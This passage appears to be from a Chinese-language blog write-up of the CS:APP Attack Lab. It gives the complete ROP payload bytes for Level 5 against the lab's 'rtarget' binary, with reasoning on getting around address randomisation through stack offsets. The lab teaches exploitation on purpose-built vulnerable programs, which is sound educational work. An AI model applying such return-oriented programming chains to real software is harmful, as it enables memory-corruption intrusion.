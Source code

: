 ##### 4.4.4 运行结果

{{< image src="assets/level-4.webp" caption="Level 4 运行结果" >}}

### Level 5: Return-Oriented Programming

#### 5.1 本关目标

同 Level 3。区别在于这次我们需要进行 ROP 攻击。

#### 5.2 本关解答

`exploit.txt` 中的内容：

```text
c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00
cc 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```

#### 5.3 解题思路

同 [3.3](#33-解题思路) 节，目标是构造表示 `cookie` 的值的字符串，将其地址传给 `%rdi` 寄存器，并最终返回到目标函数 `touch3`。

解题思路整体类似 [4.3](#43-解题思路) 节。

需注意，由于 `rtarget` 程序开启了地址随机化，不能直接得到字符串的地址，因此需要利用 `movq`、`movl` 等指令将 `%rsp` 的值传给某个寄存器，以获得栈的起始地址。之后再为这个地址加上一个偏移量 `offset`，从而得到字符串的实际地址。

为了不影响指令间的跳转，字符串应当保存在所有栈中保存内容的最后。

#### 5.4 解题过程

##### 5.4.0 总览

原本的汇编代码：

```asm
mov    $0x5561dca8,%rdi
push   $0x4018fa
ret
```
